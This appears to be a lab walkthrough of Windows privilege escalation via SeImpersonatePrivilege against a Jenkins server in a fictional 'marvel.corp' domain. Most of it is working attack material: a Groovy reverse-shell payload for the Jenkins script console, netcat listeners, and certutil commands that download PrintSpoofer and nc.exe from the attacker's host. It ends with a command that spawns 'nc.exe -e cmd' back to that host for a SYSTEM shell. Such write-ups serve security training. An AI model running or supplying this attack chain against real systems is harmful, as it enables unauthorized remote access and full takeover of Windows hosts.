

SeImpersonatePrivilege ("Impersonate a client after authentication") is a Windows security right that allows a program or service to temporarily run actions using another user's or account's permissions.

**Why It Is Dangerous (Privilege Escalation)**
Hackers often target this right to upgrade a small, low-level hack into full control of a computer.

## Demo

### Target
IP: 172.18.1.160
Hostname: SHIELD-SRV01
Operating System: Windows Server 2022
Application: Jenkins
Service Account: svc_jenkins

### Enumeration

```shell
nmap -sC -sV -T4 172.18.1.160
```


```
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:3d:c3:1c:7d:4d:05:b3:0f:a2:1e:99:38:ea:d7:3c (RSA)
|   256 ee:5b:b0:98:71:a9:64:1a:7b:34:8d:9c:c2:d5:89:94 (ECDSA)
|_  256 98:04:69:f6:19:a2:fe:47:95:59:18:72:3d:00:90:e5 (ED25519)
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: MARVEL
|   NetBIOS_Domain_Name: MARVEL
|   NetBIOS_Computer_Name: SHIELD-SRV01
|   DNS_Domain_Name: marvel.corp
|   DNS_Computer_Name: SHIELD-SRV01.marvel.corp
|   DNS_Tree_Name: marvel.corp
|   Product_Version: 10.0.20348
|_  System_Time: 2026-08-11T18:29:13+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
8080/tcp open  http          Jetty 12.1.8
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 1s
|_nbstat: NetBIOS name: SHIELD-SRV01, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:f6:f8:1a (VMware)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

```

```groovy
String host="<attacker_ip>>";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


 

On the attacker machine:

```shell
nc -lvnp 8044
```

```shell
┌──(elodvk㉿legion)-[~/marvel.corp]
└─$ nc -lvnp 8044
listening on [any] 8044 ...
connect to [192.168.1.73] from (UNKNOWN) [100.78.96.70] 4216
Microsoft Windows [Version 10.0.20348.587]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Jenkins>
```


```shell title="cmd"

C:\Program Files\Jenkins>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```


```shell
python3 -m http.server 80 --bind 192.168.1.73
```

On the target, I download the rools using `certutil`.

```cmd
certutil -urlcache -split -f http://192.168.1.73/PrintSpoofer64.exe
```

```cmd
certutil -urlcache -split -f http://192.168.1.73/nc.exe
```


```shell
C:\temp>.\PrintSpoofer64.exe -c "c:\temp\nc.exe 192.168.1.73 8443 -e cmd"
.\PrintSpoofer64.exe -c "c:\temp\nc.exe 192.168.1.73 8443 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

```shell
┌──(elodvk㉿legion)-[~/marvel.corp]
└─$ nc -lvnp 8443
listening on [any] 8443 ...
connect to [192.168.1.73] from (UNKNOWN) [100.78.96.70] 18323
Microsoft Windows [Version 10.0.20348.587]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

